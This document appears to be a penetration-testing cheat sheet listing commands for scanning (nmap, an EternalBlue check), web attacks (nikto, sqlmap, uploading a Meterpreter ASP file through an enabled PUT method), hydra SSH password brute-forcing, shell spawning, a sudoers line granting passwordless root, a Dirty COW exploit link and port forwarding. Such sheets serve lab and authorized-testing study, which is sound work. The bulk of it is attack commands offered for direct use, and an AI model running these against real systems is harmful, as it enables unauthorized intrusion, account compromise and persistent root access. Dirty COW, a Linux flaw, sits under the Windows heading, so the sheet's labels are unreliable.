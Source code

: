 ## ENUMERATION

### Find all open ports
```
nmap -sV -Pn -p- -T4 -A <IP>
nmap -Pn -sT -sV -A --script=default,banner -p- <IP>
nmap -n -A -sU -T4 <IP>
```
### Vulnerability Scan
#### eternalblue scan
```
nmap -p445 --script smb-vuln-ms17-010 <IP-range>
```

### linux enumeration 
```
enum4linux <IP>
```

## WEB PENTEST

### enumerate port 80
```
nikto -host http://<IP>
```

### sqlmap with request file
```
sqlmap -r search-test.txt -p param
```
### If PUT method is enabled
```
davtest -move -sendbd auto -url http://$ip
cadaver <IP>
cad> PUT met.asp met.asp
```

## ENCRYPTIONS AND DECRYPTIONS

### Detect the hash type
```
hash-identifier
```

### Password bruteforce using hydra
```
hydra -l bob -p password ssh://10.10.10.1 -t 4
hydra -L user.txt -P pass.txt ssh://10.10.10.1 -t 4
```

### Online md5 cracker
```
https://www.md5online.org/md5-decrypt.html
```

## LINUX PRIVILAGE ESCALATION
### Shell upgrade
```
echo os.system('/bin/bash')
```

### upgraded it to a pseudo-terminal using python
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### First do some privilage checking
```
http://www.securitysift.com/download/linuxprivchecker.py
```

### if you can edit sudoers file, just add this line
```
echo 'bob ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

## WINDOWS PRIVILAGE ESCALATION
### Windows ile search
```
where /r c:\ proof.txt
```

### Dirty COW Vulnerability
```
https://www.exploit-db.com/exploits/40839
```

## PORT FORWARDING

## Windows port forwarding
```
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```
## Linux port forwarding
```
ssh -p 9002 -L10000:127.0.0.1:10000 user@<IP2>
ssh -p 9002 -L10000:<IP1>:22 user@<IP2>
```
